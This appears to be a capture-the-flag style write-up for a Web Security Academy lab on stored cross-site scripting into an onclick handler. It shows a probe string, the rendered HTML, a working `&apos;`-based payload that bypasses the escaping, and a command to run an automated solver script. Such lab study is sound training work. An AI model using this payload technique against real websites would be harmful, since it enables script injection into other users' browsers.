 # XSS LAB 20 - Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Analyze the Vulnerability
- Submit a comment with the following value in the website field: `http: ' " / \ < > `
- Review the page source and locate the relavent `<a>` tag.
```html
<a id="author" href="http: \' &quot; / \\ &lt; &gt; " onclick="var tracker={track(){}};tracker.track('http: \' &quot; / \\ &lt; &gt; ');">sadfsa</a> 
```
- As seen in the HTML output:
    - `'`,`\` are escaped.
    - `"`,`< >` are encoded.

### 3. Inject the XSS payload
- `&apos;` is the encoded version of `'`; 
- Submit a comment with the following value in the website field: `http: &apos;-alert(1)-&apos;`
- When you click the name an alert pop-up appears.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_20.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```